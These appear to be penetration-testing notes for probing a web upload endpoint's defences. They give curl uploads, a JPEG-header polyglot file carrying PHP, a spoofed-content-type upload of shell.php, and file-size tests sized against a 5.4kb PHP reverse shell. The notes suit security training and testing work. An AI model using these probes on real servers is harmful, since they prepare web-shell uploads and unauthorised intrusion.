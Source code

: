 # filter enumeration. probe server defenses systematically.

## step 1: extension filter type

upload file with bad extension:
```bash
# test file
touch test.invalidext
curl -F "file=@test.invalidext" http://target/upload.php
```

**result:**
- blocked = server uses blacklist (blocks specific extensions)
- allowed = server uses whitelist (only allows specific extensions)

## step 2: magic number validation  

upload valid file, change magic bytes:
```bash
# create fake php-as-image
echo -ne '\xff\xd8\xff\xe0' > test.jpg
echo '<?php echo "test"; ?>' >> test.jpg
```

**result:**
- blocked = server checks file signatures
- allowed = server trusts extension/mime only

## step 3: mime type validation

change content-type header:
```bash
curl -F "file=@shell.php" \
     -H "Content-Type: application/x-php" \
     http://target/upload.php
```

**result:**
- blocked = server validates mime types
- allowed = server ignores content-type

## step 4: file size limits

test with increasingly large files:
```bash
# generate test files of different sizes
dd if=/dev/zero of=1kb.txt bs=1024 count=1
dd if=/dev/zero of=10kb.txt bs=1024 count=10
dd if=/dev/zero of=100kb.txt bs=1024 count=100
```

**result:**
- discover maximum upload size
- [!] standard php reverse shell = 5.4kb

## operational notes

- watch error messages - they reveal filter logic
- combine multiple bypass techniques based on discovered filters  
- document exact filter behavior for target system

# TODO: automate filter fingerprinting with script

